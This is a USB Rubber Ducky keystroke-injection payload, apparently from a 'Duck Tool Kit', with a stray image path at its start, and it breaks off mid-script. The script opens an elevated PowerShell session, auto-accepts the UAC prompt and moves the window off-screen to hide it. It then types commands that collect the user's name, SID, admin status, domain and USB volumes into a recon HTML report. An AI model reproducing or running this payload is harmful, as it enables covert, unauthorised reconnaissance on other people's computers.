 DELAY 750
GUI r
DELAY 1000
STRING powershell Start-Process notepad -Verb runAs
ENTER
DELAY 750
ALT y
DELAY 750
ENTER
ALT SPACE
DELAY 1000
STRING m
DELAY 1000
DOWNARROW
REPEAT 100
ENTER
STRING $folderDateTime = (get-date).ToString('d-M-y HHmmss')
ENTER
STRING $userDir = (Get-ChildItem env:\userprofile).value + '\Ducky Report ' + $folderDateTime
ENTER
STRING $fileSaveDir = New-Item  ($userDir) -ItemType Directory 
ENTER
STRING $date = get-date 
ENTER
STRING $style = "<style> table td{padding-right: 10px;text-align: left;}#body {padding:50px;font-family: Helvetica; font-size: 12pt; border: 10px solid black;background-color:white;height:100%;overflow:auto;}#left{float:left; background-color:#C0C0C0;width:45%;height:260px;border: 4px solid black;padding:10px;margin:10px;overflow:scroll;}#right{background-color:#C0C0C0;float:right;width:45%;height:260px;border: 4px solid black;padding:10px;margin:10px;overflow:scroll;}#center{background-color:#C0C0C0;width:98%;height:300px;border: 4px solid black;padding:10px;overflow:scroll;margin:10px;} </style>"
ENTER
STRING $Report = ConvertTo-Html -Title 'Recon Report' -Head $style > $fileSaveDir'/ComputerInfo.html' 
ENTER
STRING $Report = $Report + "<div id=body><h1>Duck Tool Kit Report</h1><hr size=2><br><h3> Generated on: $Date </h3><br>" 
ENTER
STRING $UserInfo = Get-WmiObject -class Win32_UserAccount -namespace root/CIMV2 | Where-Object {$_.Name -eq $env:UserName}| Select AccountType,SID,PasswordRequired  
ENTER 
STRING $UserType = $UserInfo.AccountType 
ENTER
STRING $UserSid = $UserInfo.SID
ENTER  
STRING $UserPass = $UserInfo.PasswordRequired 
ENTER 
STRING $IsAdmin = ([Security.Principal.WindowsPrincipal] [Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole] 'Administrator') 
ENTER 
STRING $Report =  $Report + "<div id=left><h3>User Information</h3><br><table><tr><td>Current User Name:</td><td>$env:USERNAME</td></tr><tr><td>Account Type:</td><td> $UserType</td></tr><tr><td>User SID:</td><td>$UserSid</td></tr><tr><td>Account Domain:</td><td>$env:USERDOMAIN</td></tr><tr><td>Password Required:</td><td>$UserPass</td></tr><tr><td>Current User is Admin:</td><td>$IsAdmin</td></tr></table>" 
ENTER  
STRING $Report = $Report + '</div>' 
ENTER
STRING  $u = 0 
ENTER 
STRING $allUsb = @(get-wmiobject win32_volume | select Name, Label, FreeSpace) 
ENTER
STRING $Report =  $Report + '<div id=right><h3>USB Devices</h3><table>' 
ENTER 